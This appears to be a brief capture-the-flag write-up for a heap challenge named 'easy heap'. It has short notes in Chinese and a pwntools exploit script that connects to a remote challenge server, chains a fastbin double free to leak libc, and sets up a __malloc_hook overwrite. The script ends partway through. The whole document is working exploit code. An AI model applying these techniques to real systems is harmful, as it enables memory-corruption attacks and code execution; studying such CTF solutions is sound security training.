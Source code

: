 ## easy heap

double free改fd去修改chunk size还有bss上的size限制

改malloc hook为one gadget

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
p = process("./easy_heap")
p=remote("139.129.76.65","50001")
p.recv()
p.send("Mask".ljust(0x8,'\x00')+p64(0x51))
def add(s, c):
    p.recv()
    p.sendline("1")
    p.recv()
    p.sendline(str(s))
    p.recv()
    p.send(c)

def delete(i):
    p.recv()
    p.sendline("2")
    p.recv()
    p.sendline(str(i))

def show(i):
    p.recv()
    p.sendline("3")
    p.recv()
    p.sendline(str(i))

def dbg(code=""):
    gdb.attach(p,code)

add(0x48, '0')
add(0x48, '1'*0x10+p64(0)*3+p64(0x51))
add(0x48, '2')
add(0x48, '3')
add(0x48, '4')
add(0x48, '5')

delete(0)
delete(1)
delete(0)


add(0x48, '\x80')
add(0x48, '4')
add(0x48, '5')
add(0x48, p64(0xdeadbeef)+p64(0)*2+p64(0xa1))
delete(2)

show(2)
p.recvuntil("2: ")
libc = u64(p.recv(6) + '\x00\x00') -0x3c4b78
print hex(libc)
delete(0)
delete(5)
delete(0)
add(0x48, p64(0x602060))
add(0x48, '4')
```